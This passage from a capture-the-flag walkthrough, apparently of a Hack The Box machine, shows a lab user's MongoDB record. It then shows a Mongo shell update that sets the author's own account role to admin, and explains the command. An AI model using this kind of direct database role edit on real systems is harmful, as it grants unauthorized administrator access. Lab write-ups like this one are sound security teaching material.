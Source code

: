 ```
      "loginTokens" : [
        { 
          "when" : ISODate("2022-08-22T20:30:15.872Z"), 
          "hashedToken" : "KuQPV+DNYyaY8cVEPfGNn0hUEzBWpp0WJSNUhblNQMg=" 
        }
      ] 
    }
  }, 
  "emails" : [
    { 
      "address" : "0xdf@talkative.htb", 
      "verified" : false 
    } 
  ], 
  "type" : "user",
  "status" : "online",
  "active" : true, 
  "_updatedAt" : ISODate("2022-08-22T20:30:15.923Z"), 
  "roles" : [ "user" ], 
  "name" : "0xdf", 
  "lastLogin" : ISODate("2022-08-22T20:30:15.868Z"), 
  "statusConnection" : "online", 
  "utcOffset" : 0, 
  "username" : "0xdf"
}

```

There’s a good bit of JSON there, but the big difference between our accounts is the `roles` field, where I have “user”, and saul has “admin”.

#### Add Admin

I’ll use Mongo to give my account the admin role:

```

rs0:PRIMARY> db.users.update({"_id": "D2ze5944wkr99XKoj"}, { $set: { "roles" : ["admin"]}})
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })

```

`db.users.update` is calling the `update` method on the `users` collection. This takes two parameters. The first identifies which objects are to be updated. In this case, I’ll use the `_id` for my user to make sure it just changes me. The second is what and how to modify. The `$set` [operator](https://www.mongodb.com/docs/manual/reference/operator/update/set/) replaces the value of a field with the given value. Then I pass it the `roles` field, and set it to `["admin"]` to match saul.

Now on refreshing `/admin`, there’s a lot more there than [before](#identify-cred-validity):

[![image-20220822164603124](https://0xdfimages.gitlab.io/img/image-20220822164603124.png)](https://0xdfimages.gitlab.io/img/image-20220822164603124.png)

[*Click for full image*](https://0xdfimages.gitlab.io/img/image-20220822164603124.png)
